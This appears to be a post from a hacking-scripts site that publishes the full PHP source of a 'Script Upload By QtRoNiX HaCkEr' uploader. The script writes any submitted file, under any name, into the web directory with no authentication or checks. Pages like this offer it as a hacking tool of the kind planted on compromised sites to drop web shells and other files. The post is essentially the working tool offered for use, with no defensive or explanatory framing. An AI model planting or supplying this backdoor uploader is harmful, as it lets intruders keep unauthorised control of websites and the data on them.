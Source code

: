 ```yaml
---
id: 205
title: Script Upload By QtRoNiX HaCkEr
author: admin
layout: post
guid: http://hackingscripts.com/?p=205
permalink: /script-upload-by-qtronix-hacker/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

A simple uploader script by QtRoNiX HaCkEr.

### Script Upload By QtRoNiX HaCkEr Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
echo '&lt;center&gt;&lt;font color="Red" size="4"&gt;';
/// Script Upload By QtRoNiX HaCkEr \\\
if(isset($_POST['Submit'])){
	$filedir = ""; 
	$maxfile = '2000000';
	$mode = '0644';
	$userfile_name = $_FILES['image']['name'];
	$userfile_tmp = $_FILES['image']['tmp_name'];
	if(isset($_FILES['image']['name'])) {
		$qx = $filedir.$userfile_name;
		@move_uploaded_file($userfile_tmp, $qx);
		@chmod ($qx, octdec($mode));
echo"&lt;center&gt;&lt;b&gt;Done ==&gt; $userfile_name&lt;/b&gt;&lt;/center&gt;";
}
}
else{
echo'&lt;form method="POST" action="#" enctype="multipart/form-data"&gt;&lt;input type="file" name="image"&gt;&lt;br&gt;&lt;input type="Submit" name="Submit" value="Upload"&gt;&lt;/form&gt;';
}
echo '&lt;/center&gt;&lt;/font&gt;';
?&gt;
</pre>